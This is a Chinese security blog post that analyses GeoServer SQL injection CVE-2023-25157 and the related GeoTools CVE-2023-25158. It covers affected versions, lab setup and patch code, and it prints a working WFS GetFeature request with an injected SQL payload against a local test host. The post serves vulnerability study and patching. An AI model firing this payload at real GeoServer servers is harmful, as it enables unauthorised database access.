



# 浅析 GeoServer CVE-2023-25157 SQL 注入 - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/17496778.html`](https://www.cnblogs.com/hetianlab/p/17496778.html)

#### 简介

GeoServer 是一个开源的地图服务器，它是遵循 OpenGIS Web 服务器规范的 J2EE 实现，通过它可以方便的将地图数据发布为地图服务，实现地理空间数据在用户之间的共享。

#### 影响版本

geoserver<`2.18.7`

`2.19.0`<=geoserver<`2.19.7`

`2.20.0`<=geoserver<`2.20.7`

`2.21.0`<=geoserver<`2.21.4`

`2.22.0`<=geoserver<`2.22.2`

#### 环境搭建

安装方式有多种可以选择

windwos 下载安装

[`sourceforge.net/projects/geoserver/files/GeoServer/2.22.0/GeoServer-2.22.0-winsetup.exe/download`](https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.0/GeoServer-2.22.0-winsetup.exe/download)

下载后只需要指定端口直接下载可完成安装

war 包安装

tomcat 下载地址

> [`dlcdn.apache.org/tomcat/tomcat-8/v8.5.90/bin/apache-tomcat-8.5.90-windows-x64.zip`](https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.90/bin/apache-tomcat-8.5.90-windows-x64.zip)

geoserver 下载地址

> [`sourceforge.net/projects/geoserver/files/GeoServer/2.23.1/geoserver-2.23.1-war.zip`](https://sourceforge.net/projects/geoserver/files/GeoServer/2.23.1/geoserver-2.23.1-war.zip)

解压下载后的文件 geoserver-2.15.1-war.zip，得到 geoserver.war

把此 geoserver.war 文件拷贝到 tomcat 根目录下的 webapps 文件夹下。

启动 tomcat

访问路径，默认端口为 8080，端口根据自己的需求开放即可，这里我开放的端口为 8081

```
http://localhost:8081/geoserver/web/
```



#### 分析

POC 下载链接

> [`github.com/win3zz/CVE-2023-25157`](https://github.com/win3zz/CVE-2023-25157)
> 
> python3 CVE-2023-25157.py [`localhost:8081`](http://localhost:8081/)



查看提交的补丁分析一下漏洞

> [`github.com/geoserver/geoserver/commit/145a8af798590288d270b240235e89c8f0b62e1d`](https://github.com/geoserver/geoserver/commit/145a8af798590288d270b240235e89c8f0b62e1d)

修改了配置文件`src/community/jdbcconfig/src/main/java/org/geoserver/jdbcconfig/internal/ConfigDatabase.java`

重新添加了模块`org.geoserver.jdbcloader.JDBCLoaderProperties`模块用于配置文件`jdbcconfig/jdbcconfig.properties`中的 JDBCConfig 模块



属性字段并更改了构造函数以包含此属性字段。这允许对数据库配置进行更多自定义，从而可能允许增强安全措施。[`NamedParameterJdbcTemplate`](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/jdbc/core/namedparam/NamedParameterJdbcTemplate.html)是 Spring Framework 提供的一个类，它添加了对使用命名参数对 JDBC 语句进行编程的支持，而不是使用经典占位符 ('?') 参数对 JDBC 语句进行编程

【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

```
public ConfigDatabase(
            JDBCLoaderProperties properties,
            DataSource dataSource,
            XStreamInfoSerialBinding binding) {
        this(properties, dataSource, binding, null);
    }
​
    public ConfigDatabase(
            JDBCLoaderProperties properties,
            final DataSource dataSource,
            final XStreamInfoSerialBinding binding,
            CacheProvider cacheProvider) {
​
        this.properties = properties;
        this.binding = binding;
        this.template = new NamedParameterJdbcTemplate(dataSource);
```

通过使用参数化查询而不是字符串连接


`src/community/jdbcconfig/src/main/java/org/geoserver/jdbcconfig/internal/OracleDialect.java`在插入中做了修改

```
 //sql.insert(0, "SELECT * FROM (SELECT query.*, rownum rnum FROM (\n");
          //sql.append(") query\n");
            sql.insert(
                    0,
                    "SELECT * FROM (SELECT query.*, rownum rnum FROM ("
                            + (isDebugMode() ? "\n" : ""));
            sql.append(") query");
            appendIfDebug(sql, "\n", " ");
```

修改了插入语法，其方法在`src/community/jdbcconfig/src/main/java/org/geoserver/jdbcconfig/internal/Dialect.java`

中定义

```
 public boolean isDebugMode() {
        return debugMode;
    }
​
    public void setDebugMode(boolean debugMode) {
        this.debugMode = debugMode;
    }
​
    /** Escapes the contents of the SQL comment to prevent SQL injection. */
    public String escapeComment(String comment) {
        String escaped = ESCAPE_CLOSING_COMMENT_PATTERN.matcher(comment).replaceAll("*\\\\/");
        return ESCAPE_OPENING_COMMENT_PATTERN.matcher(escaped).replaceAll("/\\\\*");
    }
​
    /** Appends the objects to the SQL in a comment if debug mode is enabled. */
    public StringBuilder appendComment(StringBuilder sql, Object... objects) {
        if (!debugMode) {
            return sql;
        }
        sql.append(" /* ");
        for (Object object : objects) {
            sql.append(escapeComment(String.valueOf(object)));
        }
        return sql.append(" */\n");
    }
​
    /** Appends the objects to the SQL in an comment if debug mode is enabled. */
    public StringBuilder appendComment(Object sql, Object... objects) {
        return appendComment((StringBuilder) sql, objects);
    }
​
    /** Appends one of the strings to the SQL depending on whether debug mode is enabled. */
    public StringBuilder appendIfDebug(StringBuilder sql, String ifEnabled, String ifDisabled) {
        return sql.append(debugMode ? ifEnabled : ifDisabled);
    }
```

获取功能名 POC

```
GET /geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities HTTP/1.1
Host: 10.10.12.35:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=node0iyysq0tt08lup1gy571ox3id1.node0
Upgrade-Insecure-Requests: 1
```


获取功能属性 POC

```
GET /geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=ne:coastlines&maxFeatures=1&outputFormat=json HTTP/1.1
Host: 10.10.12.35:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=node0iyysq0tt08lup1gy571ox3id1.node0
Upgrade-Insecure-Requests: 1
```


构造恶意 payload

```
GET /geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=ne:coastlines=strStartsWith%28scalerank%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+INTEGER%29%29+--+%27%29+%3D+true HTTP/1.1
Host: 10.10.12.35:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=node0iyysq0tt08lup1gy571ox3id1.node0
Upgrade-Insecure-Requests: 1
```

这里引用一张图，geotools 的注入漏洞


漏洞编号 CVE-2023-25158,查看补丁发现

在类中添加该`escapeBackslash`字段[`modules/library/jdbc/src/main/java/org/geotools/data/jdbc/FilterToSQL.java`](https://github.com/geotools/geotools/commit/64fb4c47f43ca818c2fe96a94651bff1b3b3ed2b?diff=split#diff-bd6d9db0d247e2fa5b149e6e281e39d27da9eecb7b755cb5f9be01aa975aca2e)是一种预防措施，可防止某些形式的 SQL 注入，其中反斜杠字符用于转义 SQL 语法中的特殊字符

```
 // single quotes must be escaped to have a valid sql string
  String escaped = escapeLiteral(encoding);
```

调用类`escapeLiteral()`中的方法`EscapeSql.java`。此方法旨在不仅转义单引号，还转义反斜杠，并可能根据其参数转义双引号

```
 public static String escapeLiteral(
            String literal, boolean escapeBackslash, boolean escapeDoubleQuote) {
            // ' --> ''
            String escaped = SINGLE_QUOTE_PATTERN.matcher(literal).replaceAll("''");
            if (escapeBackslash) {
                // \ --> \\
                escaped = BACKSLASH_PATTERN.matcher(escaped).replaceAll("\\\\\\\\");
            }
            if (escapeDoubleQuote) {
                // " --> \"
                escaped = DOUBLE_QUOTE_PATTERN.matcher(escaped).replaceAll("\\\\\"");
            }
            return escaped;
```

至于为什么会聊到 CVE-2023-25158,这里就要聊到`Geoserver`和`Geotools`的关系了,可以参考这篇文章

> [`blog.csdn.net/nmj2008/article/details/113869086`](https://blog.csdn.net/nmj2008/article/details/113869086)

#### 修复方案

升级安全版本，目前已经有最新版本。

**更多网安技能的在线实操练习，[请点击这里>>](https://www.hetianlab.com/)**